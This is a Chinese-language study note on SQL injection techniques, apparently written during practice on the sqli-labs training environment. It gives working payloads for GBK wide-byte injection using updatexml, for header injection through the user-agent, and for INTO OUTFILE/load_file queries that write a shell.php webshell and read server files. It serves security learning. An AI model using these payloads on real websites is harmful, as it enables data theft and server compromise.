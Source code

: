 

## 7、宽字节注入（gdk）

基于gdk编码一个gbk汉字占两个字节。第一个字节（129-254），第二个字节（64-225）

%dd  ；  %dc

~~~shell
# 语句
http://172.168.20.84:8088/Less-32/?id=1%dc' and updatexml(1,concat(0x7e,database(),0x7e),1) -- -
~~~



## 8、header头部注入

有输入还要能拼接

1、cookie（因为没有过滤）

2、user-agent

~~~php
#php文件-->www文件夹
<?php
  $a=$_GET['a'];
  echo $a;
  ?>
# 改变GET：POST/COOKIE
# 数据包：
    user-Agent：Mozilla',1,2)#
~~~



## 高权限读写操作

条件：

* 需要用户有读写权限
* 需要知道网站的绝对路径：报错、猜测（@@datadir）
* secure_file_priv=""需要配置（myini）

常用函数：

~~~shell
# 语法
1、写：into outfile（写在最后）
	union select 1,'',3 INTO outfile "D:\\phpStudy\\PHPTutorial\\WWW\\shell.php"--+
2、读：load_file（写在回显的位置）
	union select 1,load_file('D:\\phpStudy\\PHPTutorial\\WWW\\index.php'),3 --+
# shell
<?php phpinfo();?>(是否需要加引号)
# 有时候需要两个\\
#网站：
dnslog.cn
ceye.io
zoomeye
### secure_file_priv
secure_file_priv 这个变量被用于限制导入和导出的数据目录，比如 LOAD DATA 和 SELECT ... INTO OUTFILE 语句，以及 LOAD_FILE() 函数。这些操作限制了哪些用户拥有文件操作权限。
* secure_file_priv有些设置选项:
 1、如果为空，不做目录限制，即任何目录均可以。
 2、如果指定了目录，MySQL 会限制只能从该目录导入、或导出到该目录。目录必须已存在，MySQL 不会自动创建该目录。
 3、如果设置为 NULL，MySQL 服务器禁止导入与导出功能。
~~~
